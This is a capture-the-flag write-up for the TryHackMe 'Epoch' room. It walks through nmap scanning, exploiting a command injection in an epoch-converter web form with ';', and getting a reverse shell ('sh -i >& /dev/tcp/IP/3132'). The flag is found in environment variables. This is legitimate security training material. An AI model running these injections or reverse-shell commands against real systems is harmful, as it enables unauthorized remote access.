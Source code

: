 ```bash
# PLATFORM          . THM
# CTF NAME          . Epoch
# DESCRIPTION       . Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! 
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/epoch
```

```
sudo nmap -sSVC -T5 -p- 10.10.244.195 -oN epoch 
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0149f4f3933591fb0fb129138cd8fc04 (RSA)
|   256 c7981b9901cb0538e1a090d23515c4dc (ECDSA)
|_  256 63f31bf18e078df8be4d81a43b7f9f8c (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Wed, 28 Feb 2024 16:44:05 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1184
|     Connection: close
|     <!DOCTYPE html>
|     <head>
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
|     integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
|     <style>
|     body,
|     html {
|     height: 100%;
|     </style>
|     </head>
|     <body>
|     <div class="container h-100">
|     <div class="row mt-5">
|     <div class="col-12 mb-4">
|     class="text-center">Epoch to UTC convertor 
|     </h3>
|     </div>
|     <form class="col-6 mx-auto" action="/">
|     <div class=" input-group">
|     <input name="epoch" value="" type="text" class="form-control" placeholder="Epoch"
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Date: Wed, 28 Feb 2024 16:44:05 GMT
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 18
|     Allow: GET, HEAD
|     Connection: close
	|_    Method Not Allowed
```

#### PORT 80

- the web server is asking for an epoch as input; 

- however, the form is vulnerable to command injection by using `;` to inject UNIX* commands.

```
0
```

```
Thu Jan  1 00:00:00 UTC 1970
```

- However, if we use `;` to inject more commands, they are executed and the output is shown back to us.

```
1;ls;pwd;ls /home; ls -lah;whoami;mkdir .ssh; ls -lah
```

```
Thu Jan  1 00:00:01 UTC 1970
go.mod
go.sum
main
main.go
views
/home/challenge
challenge
total 14M
drwxr-xr-x 1 root root 4.0K Mar  2  2022 .
drwxr-xr-x 1 root root 4.0K Mar  2  2022 ..
-rw-r--r-- 1 root root  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 root root  807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root  236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root  52K Mar  2  2022 go.sum
-rwxr-xr-x 1 root root  14M Mar  2  2022 main
-rw-rw-r-- 1 root root 1.2K Mar  2  2022 main.go
drwxrwxr-x 1 root root 4.0K Mar  2  2022 views
challenge
mkdir: cannot create directory '.ssh': Permission denied
total 14M
drwxr-xr-x 1 root root 4.0K Mar  2  2022 .
drwxr-xr-x 1 root root 4.0K Mar  2  2022 ..
-rw-r--r-- 1 root root  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 root root  807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root  236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root  52K Mar  2  2022 go.sum
-rwxr-xr-x 1 root root  14M Mar  2  2022 main
-rw-rw-r-- 1 root root 1.2K Mar  2  2022 main.go
drwxrwxr-x 1 root root 4.0K Mar  2  2022 views

```


- In the example above, I tried creating the `.ssh` directory in my home path, next step being creating the `authorized_keys` file to allow me to place a public key in there, leading to SSH authorization using the private key.

- However, the path seems to be owned by root and access is denied.

- This is not really an impairment, as we can execute a command to connect back to a listener of ours, so we can still get access to the server. However, I wanted the SSH approach as it would've been more stable from the beginning.


```
1;sh -i >& /dev/tcp/IP/3132 0>&1
```

```
Listening on 0.0.0.0 3132
Connection received on 10.10.244.195 47616
sh: 0: can't access tty; job control turned off
$ whoami 
challenge
```

#### PRIVILEGE ESCALATION

- Privilege escalation wasn't needed; 
- During my checks I've found the flag by printing the environment variables with `env`.

